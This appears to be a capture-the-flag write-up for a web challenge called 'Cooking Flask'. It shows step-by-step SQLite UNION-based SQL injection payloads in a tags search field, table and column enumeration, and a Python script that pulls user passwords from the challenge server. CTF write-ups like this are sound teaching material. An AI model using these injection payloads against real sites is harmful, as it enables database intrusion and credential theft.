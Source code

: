 ```yaml
---
ai_date: 2025-05-17 21:38:59
ai_summary: Exploited SQL injection vulnerability to extract 'password' column from 'user' table, retrieving flag
ai_tags:
  - sql
  - union
  - select
created: 2025-05-17T05:17
points: 359
solves: 141
title: Cooking Flask
updated: 2025-05-17T22:01
---
```


This is clearly a SQL challenge.

However name and description are not vulnerable.

So I tried tags, which is indeed vulnerable.

```python
params = {
    "recipe_name": "",
    "description": "",
    "tags": [
        "%' OR 1=1)--
    ]
}
```

We can assume that the server is doing do something like this:

```sql
SELECT * FROM recipe
WHERE recipe_name LIKE '%' || ? || '%'
AND recipe_description LIKE '%' || ? || '%'
AND ( tags LIKE '%Dessert%' OR tags LIKE '%Lunch%');
```

Those column names are guessed via selecting different columns and seeing if the error message changes.

```python
"%' OR (select recipe_id, recipe_name, recipe_description, tags from recipe))-- "
```

And the server is running `sqlite` (by guess and check https://yun.ng/c/sql).

```python
"%') UNION SELECT sqlite_version() -- "
```

```python
"%') UNION SELECT '0','1','2','3','4','5','6','7' FROM sqlite_master WHERE type='table' -- "
```

After a lot of pain, I found the number of columns in the table.

```
pydantic_core._pydantic_core.ValidationError: 2 validation errors for Recipe
date_created
  Datetimes provided to dates should have zero time - e.g. be exact dates [type=date_from_datetime_inexact, input_value='2', input_type=str]
    For further information visit https://errors.pydantic.dev/2.11/v/date_from_datetime_inexact
tags
  Input should be a valid list [type=list_type, input_value=6, input_type=int]
    For further information visit https://errors.pydantic.dev/2.11/v/list_type
```

Luckily the server gives me this very helpful error message.

After fixing the formats I am able to get my query back!

```python
"%') UNION SELECT '0','1','2025-05-17','3','4','5','[]','7' FROM sqlite_master WHERE type='table' -- "
```

## what table? what column?
So where is the flag? What is the table name?

```python
"%') UNION SELECT '0','1','2025-05-17','3',name,'5','[]','7' FROM sqlite_master WHERE type='table' -- "
```

```
login_attempt
login_session
personal_cookbook_entry
recipe
sqlite_sequence
to_try_entry
user
```

I guess it is in user?

```python
"%') UNION SELECT '0','1','2025-05-17','3',name,'5','[]','7' FROM pragma_table_info('user') -- "
```

```
date_joined
first_name
last_name
password
user_email
user_id
username
```

And there it is, `password`

```python
import requests
import re
params = {
    "recipe_name": "",
    "description": "",
    "tags": [
        # "%' OR 1=1)--"
        "%') UNION SELECT '0','1','2025-05-17','3',password,'5','[]','7' FROM user -- "
    ]
}
r = requests.get("https://cooking.chal.cyberjousting.com/search", params=params)
r = r.text

pattern = re.compile(r"<td>(.+)</td>")
for match in pattern.findall(r):
    print(match)

if not pattern.findall(r):
    print(r)
```

```flag
byuctf{pl34s3_p4r4m3t3r1z3_y0ur_1nputs_4nd_h4sh_p4ssw0rds}
```